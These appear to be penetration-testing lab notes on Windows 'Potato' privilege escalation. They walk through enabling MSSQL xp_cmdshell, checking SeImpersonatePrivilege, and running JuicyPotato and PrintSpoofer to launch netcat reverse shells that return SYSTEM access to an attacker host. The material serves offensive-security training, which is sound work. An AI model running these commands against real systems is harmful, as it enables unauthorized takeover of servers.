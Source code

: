 # Potato Impersonation Attack

- Legitimate programs may utilize another process's token to escalate from Administrator to Local System, which has additional privileges.
- Processes generally do this by making a call to the `WinLogon` process to get a `SYSTEM` token, then executing itself with that token placing it within the SYSTEM space.
- Attackers often abuse this privilege in the "Potato style" privesc - where a service account can `SeImpersonate`, but not obtain full SYSTEM level privileges.
- Essentially, the Potato attack tricks a process running as SYSTEM to connect to their process, which hands over the token to be used.
- We will often run into this privilege after gaining remote code execution via an application that runs in the context of a service account (for example, uploading a web shell to an ASP.NET web application, achieving remote code execution through a Jenkins installation, or by executing commands through MSSQL queries).
- Whenever we gain access in this way, we should immediately check for this privilege as its presence often offers a quick and easy route to elevated privileges.
- This [paper](https://github.com/hatRiot/token-priv/blob/master/abusing_token_eop_1.0.txt) is worth reading for further details on token impersonation attacks.

## `JuicyPotato`

---

### **Connecting with MSSQLClient.py**

- Using the credentials `sql_dev:Str0ng_P@ssw0rd!`, let's first connect to the SQL server instance and confirm our privileges. We can do this using [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py) from the `Impacket` toolkit.

```
Kamino@htb[/htb]$ mssqlclient.py sql_dev@10.129.43.30 -windows-authImpacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed database context to 'master'.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (130 19162)
[!] Press help for extra shell commands
SQL>

```

### **Enabling `xp_cmdshell`**

- Next, we must enable the `xp_cmdshell` stored procedure to run operating system commands.
- We can do this via the `Impacket` MSSSQL shell by typing `enable_xp_cmdshell`.
- Typing `help` displays a few other command options.

```
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install

```

Note: We don't actually have to type `RECONFIGURE` as `Impacket` does this for us.

### **Confirming Access**

- With this access, we can confirm that we are indeed running in the context of a SQL Server service account.

```
SQL> xp_cmdshell whoami

output

--------------------------------------------------------------------------------

nt service\mssql$sqlexpress01
```

### **Checking Account Privileges**

- Next, let's check what privileges the service account has been granted.

```
SQL> xp_cmdshell whoami /priv

output

--------------------------------------------------------------------------------

PRIVILEGES INFORMATION

----------------------
Privilege Name                Description                               State

============================= ========================================= ========

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

- The command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed.
- This privilege can be used to impersonate a privileged account such as `NT AUTHORITY\SYSTEM`.
- [JuicyPotato](https://github.com/ohpe/juicy-potato) can be used to exploit the `SeImpersonate` or `SeAssignPrimaryToken` privileges via DCOM/NTLM reflection abuse.

### **Escalating Privileges Using `JuicyPotato`**

- To escalate privileges using these rights, let's first download the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server.
- Next, stand up a Netcat listener on port 8443, and execute the command below where `-l` is the COM server listening port, `-p` is the program to launch (cmd.exe), `-a` is the argument passed to cmd.exe, and `-t` is the `createprocess` call.
- Below, we are telling the tool to try both the [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) and [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) functions, which need `SeImpersonate` or `SeAssignPrimaryToken` privileges respectively.

```
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output

--------------------------------------------------------------------------------

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375

[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
[+] calling 0x000000000088ce08
```

### **Catching SYSTEM Shell**

- This completes successfully, and a shell as `NT AUTHORITY\SYSTEM` is received.

```
Kamino@htb[/htb]$ sudo nc -lnvp 8443listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system

C:\Windows\system32>hostname

hostname
WINLPE-SRV01
```

# **`PrintSpoofer` and `RoguePotato`**

---

- `JuicyPotato` doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards.
- However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access.
- This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

### **Escalating Privileges using `PrintSpoofer`**

- Let's try this out using the `PrintSpoofer` tool.
- We can use the tool to spawn a SYSTEM process in your current console and interact with it, spawn a SYSTEM process on a desktop (if logged on locally or via RDP), or catch a reverse shell - which we will do in our example. Again, connect with `mssqlclient.py` and use the tool with the `-c` argument to execute a command.
- Here, using `nc.exe` to spawn a reverse shell (with a Netcat listener waiting on our attack box on port 8443).

```
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output

--------------------------------------------------------------------------------

[+] Found privilege: SeImpersonatePrivilege

[+] Named pipe listening...

[+] CreateProcessAsUser() OK

NULL

```

### **Catching Reverse Shell as SYSTEM**

If all goes according to plan, we will have a SYSTEM shell on our netcat listener.

```bash
Kamino@htb[/htb]$ nc -lnvp 8443listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system
```
